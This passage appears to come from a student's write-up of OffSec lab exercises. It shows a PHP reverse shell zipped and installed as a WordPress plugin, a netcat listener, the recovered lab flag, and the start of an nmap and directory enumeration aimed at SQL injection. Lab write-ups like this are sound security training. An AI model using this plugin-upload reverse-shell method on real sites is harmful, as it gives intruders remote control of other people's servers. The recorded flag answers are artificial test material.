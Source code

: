 ```bash
zip reverse.zip reverse_shell.php
nc -nlvp 4444
```
- Add New Plugin & Activate
	- Should have reverse connection in listener
- Search directories
```bash
www-data@Alvida:/var/www/wordpress/wp-admin$ ls ../../
	ls ../../
	flag.txt
	html
	wordpress
www-data@Alvida:/var/www/wordpress/wp-admin$ cat ../../flag.txt
	cat ../../flag.txt
	OS{50721ad4f7d57b37a360790ac19f7412}
```


> Answer:  OS{50721ad4f7d57b37a360790ac19f7412}



5. **Capstone Exercise**: Enumerate the Module Exercise - VM #2 and exploit the SQLi vulnerability in order to get the flag.

- Enumerate
```bash
nmap -Pn 192.168.209.48
	PORT      STATE    SERVICE
	22/tcp    open     ssh
	80/tcp    open     http
	1124/tcp  filtered hpvmmcontrol
	1186/tcp  filtered mysql-cluster
	2909/tcp  filtered funk-dialout
	3077/tcp  filtered orbix-loc-ssl
	3268/tcp  filtered globalcatLDAP
	3301/tcp  filtered tarantool
	3306/tcp  open     mysql
	3703/tcp  filtered adobeserver-3
	4444/tcp  filtered krb524
	6059/tcp  filtered X11:59
	9594/tcp  filtered msgsys
	13783/tcp filtered netbackup
	14238/tcp filtered unknown
	22939/tcp filtered unknown
	27352/tcp filtered unknown
	30951/tcp filtered unknown
	44443/tcp filtered coldfusion-auth
	50006/tcp filtered unknown
```
- **Wappalyzer**, **Gobuster**, **feroxbuster**, and **dirsearch** didn't yield any juicy results

- Browsing through the site gave three total pages:  **index.php**, **about.php**, and **donate.php**
	- So, they use PHP.
	- Found a Subscribe "Enter your email" field on **index.php** which generates a POST request
	![](10.3.2.5ex_emailPost.png)
